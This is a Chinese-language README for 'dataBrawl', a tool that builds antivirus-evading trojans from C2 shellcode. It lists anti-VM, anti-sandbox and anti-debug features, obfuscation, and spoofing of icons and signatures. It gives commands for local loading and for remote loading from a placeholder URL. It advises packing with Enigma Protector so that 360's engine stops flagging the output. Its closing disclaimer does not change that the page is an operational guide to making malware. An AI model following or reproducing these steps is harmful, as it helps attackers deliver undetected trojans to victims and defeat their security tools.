



# dataBrawl

**（2024年6月28日注：大型活动期间暂停维护，已删除核心template）**


一款一键化生成免杀木马的shellcode免杀框架，具备**本地加载**方式和**远程加载**方式。

## Feature
1. 本地/分离加载
2. ollvm混淆编译/gcc编译
3. IAT obfuscate
4. Anti-VM
5. Anti-Sandbox（API Hammering，自定义sleep）
6. Anti-Debug
7. 内存加密
8. add resource/sign


## 环境准备

本工具使用mingw或ollvm编译，ollvm编译无需准备编译环境（生成exe较大，qvm需额外操作）

使用mingw编译需要准备好编译环境，下载mingw编译器：

官网地址：https://www.mingw-w64.org/

Windows下载链接： https://sourceforge.net/projects/mingw-w64/files/

我下载的是x86_64-win32-seh，具体请根据系统情况适配，也可以直接下载online installer


添加系统环境变量：

path = 解压目录/mingw64/bin

最好把include和lib也对应添加到环境变量的include和lib中，以免编译找不到链接库


## 使用说明

python dataBrawl.py -h



#### 本地加载shellcode

CS或其他C2生成shellcode


-i 指复制目标exe的资源、图标和签名信息

```shell
python dataBrawl.py D:\Dev\dataBrawl\payload_x64.bin -b 1 -t stdtemp -i "C:\Users\xxx"
```



默认在项目跟目录生成result.exe，也可-o指定输出位置

这里是使用gcc编译，目前qvm未报毒，ollvm编译把-b选项输入2，目前qvm存在问题，可以再加个壳，我这里使用enigma protector ，自己大概选择配置下，qvm都无法拦截。https://down.52pojie.cn/Tools/Packers/The_Enigma_Protector_v7.40_x32_x64.rar 不过qvm比较玄学，可能过两天就报毒了，可以直接ollvm编译+壳。



使用ollvm加壳后如果还杀，就改一下加壳的选项。


#### 远程加载shellcode

先生成加密shellcode

```
python dataBrawl.py D:\Dev\dataBrawl\payload_x64.bin -c 1 -t remote
```

使用远程模板生成木马

```shell
python dataBrawl.py http://www.xxx.com/shellcode.bin -b 1 -t remote -i "C:\Users\xxx"
```


# ⚠️ Warning

**免责声明:** 请注意，本仓库仅用于学习和研究目的。在使用任何与恶意软件开发相关的技术时，请遵守当地法律法规，不要进行任何违法活动。对于任何不当使用造成的后果，本仓库的维护者不承担任何责任。

欢迎提出建议、报告漏洞或贡献代码以改进本仓库的内容。让我们共同努力，提高网络安全意识和技术水平！

